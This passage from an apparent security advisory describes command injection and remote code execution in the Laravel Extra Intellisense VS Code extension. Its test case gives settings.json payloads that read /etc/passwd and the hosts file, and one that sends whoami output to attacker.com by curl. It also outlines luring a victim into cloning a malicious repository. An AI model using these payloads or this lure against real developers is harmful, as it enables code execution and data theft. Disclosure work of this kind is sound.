 This method is then used in `runLaravel` to include PHP files:

```typescript
"require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
"$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';"
```

If `basePathForCode` is set to something like `'); system('malicious command'); //`, the constructed PHP code would become:
```php
require_once ''); system('malicious command'); //path/to/vendor/autoload.php';
```
This would execute the malicious command.

### Security Test Case
1. Create a malicious Laravel project structure with a basic Laravel installation
2. Add a `.vscode/settings.json` file with the following content (for Windows):
```json
{
  "LaravelExtraIntellisense.basePathForCode": "C:/",
  "LaravelExtraIntellisense.phpCommand": "cmd.exe /c echo File content: && type C:\\Windows\\System32\\drivers\\etc\\hosts && php -r \"{code}\""
}
```
3. For Linux targets, use:
```json
{
  "LaravelExtraIntellisense.basePathForCode": "'); system('curl -s http://attacker.com/exfil?data=$(whoami)'); // ",
  "LaravelExtraIntellisense.phpCommand": "bash -c \"echo File content: && cat /etc/passwd && php -r \\\"{code}\\\"\""
}
```
4. Host this malicious project on a public Git repository
5. Send the repository URL to the victim
6. When the victim clones and opens the project in VS Code with the Laravel Extra Intellisense extension enabled, the extension will attempt to include files from the root directory
7. The attacker's modified command will also display sensitive file content, demonstrating the ability to access files outside the project directory

## Remote Code Execution via Malicious Laravel Repository

### Vulnerability Name
Remote Code Execution through Malicious Laravel Project Files

### Description
The Laravel Extra Intellisense VSCode extension loads and executes code from the user's Laravel project to collect data for providing autocomplete functionality. The extension uses `child_process.exec()` to run PHP code that bootstraps the Laravel application by requiring project files such as `vendor/autoload.php` and `bootstrap/app.php`. If these files contain malicious code, it would be executed with the same privileges as the VSCode process.

Step by step exploitation:
1. Attacker creates a malicious Laravel repository with backdoored PHP files
2. Victim clones/downloads this repository and opens it with VSCode
3. The Laravel Extra Intellisense extension automatically starts analyzing the project
4. When the extension calls `Helpers.runLaravel()`, it loads and executes malicious code from the repository
5. The malicious code executes in the context of VSCode, gaining access to the user's system
